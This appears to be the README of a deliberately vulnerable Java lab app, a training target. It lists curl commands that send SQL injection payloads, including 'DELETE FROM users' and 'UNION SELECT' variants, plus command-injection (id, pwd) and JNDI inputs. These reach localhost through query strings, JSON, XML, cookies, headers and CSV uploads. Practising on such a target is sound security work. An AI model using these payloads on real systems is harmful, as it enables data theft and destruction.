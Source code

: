 # Vulnerable

## Deploy

```bash
rm vulnerable.jar
wget https://github.com/michalszalkowski/vulnerable/raw/master/vulnerable.jar
java -jar vulnerable.jar
```

## SQL Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "name=michal" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' or 1=1 -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' UNION SELECT * FROM config -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\' or 1=1-- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\'/**/or/**/1=1/**/-- -" http://localhost:8080/vun/sql/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file.csv
echo "\"michal\",\"hacker'); DELETE FROM users; -- -\"" >> /tmp/file.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/sql/example7/1/ --form file="@/tmp/file.csv"
```

## CMD Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "cmd=id" http://localhost:8080/vun/cmd/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/ --cookie "cmd=pwd"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/ -H "X-Filter:pwd"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file2.csv
echo "\"michal\",\"pwd\"" >> /tmp/file2.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/cmd/example6/ --form file="@/tmp/file2.csv"
```

## JNDI Injection

### GET request - payload in query param
```bash
curl http://localhost:8080/vun/jndi/example1/?payload=java%3Acomp%2Fenv%2Fjdbc%2Fdatasource
```
